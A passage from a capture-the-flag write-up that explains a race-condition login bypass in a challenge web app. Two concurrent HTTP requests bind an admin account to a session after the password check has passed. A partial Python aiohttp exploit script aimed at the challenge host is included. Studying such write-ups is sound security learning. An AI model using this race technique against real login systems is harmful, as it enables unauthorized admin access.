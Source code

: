 ```sql
INSERT INTO web.session (
  uid,
  user_uid,
  logged_in
) VALUES (
  COALESCE(session_uid, uuid_generate_v4()), <- 1
  form_user_uid,
  FALSE
)
```

Nice try though, but that is the right thinking! We're just gonna do that, _but fast_. We're aiming for a session table that would look have a `user_uid` of an admin, with a `TRUE` value in `logged_in`. We can do this by abusing two http requests to force our steps to be done in a malicious order since each request runs _concurrently_.

So we did:
```
req1: 1 -> 2
req2:          3 -> 4 -> 5 -> 6
req3:          1 -> 2
```

Our racing req3 will end up setting the `user_uid` of our session to whatever we wanted (at step 2). Then req2 will mark it as `logged_in` at step 5 after we've already passed the password check at step 3! To do this I played with the cool `aiohttp` module to do python3 async requests.

```python
import aiohttp
import asyncio
import time

# Set to your session cookie value
session_cookie = {"session": "8fc8c228-6409-4d1f-8677-d8155cd32f04"}
headers        = {'Content-Type': 'application/x-www-form-urlencoded'}

async def doLogin(session, url, username):
    resp = await session.post(url, data=b"username=" + str(username).encode(), headers=headers)
    resp.raise_for_status()
    print("Got response [{}] for URL: {}".format(resp.status, url))
    return resp.status

async def doPassword(session, url):
    resp = await session.post(url, data=b"password=poop", headers=headers)
    resp.raise_for_status()
    print("Got response [{}] for URL: {}".format(resp.status, url))
    return resp.status

async def main():
    # force aiohttp to send on different HTTP requests
    conn = aiohttp.TCPConnector(force_close=True)

    async with aiohttp.ClientSession(connector=conn, cookies=session_cookie) as session:
        login_post = doLogin(session, "http://triggered.pwni.ng:52856/login", "poop")

        # Wait for the stage1 to finish
        print("LOGIN1 = " + str(await login_post))

        # immediately fire requests
        login_post_race = asyncio.ensure_future(doLogin(session, "http://triggered.pwni.ng:52856/login", "admin"))
        password_post   = asyncio.ensure_future(doPassword(session, "http://triggered.pwni.ng:52856/login/password"))

        # wait for both requests to finish
```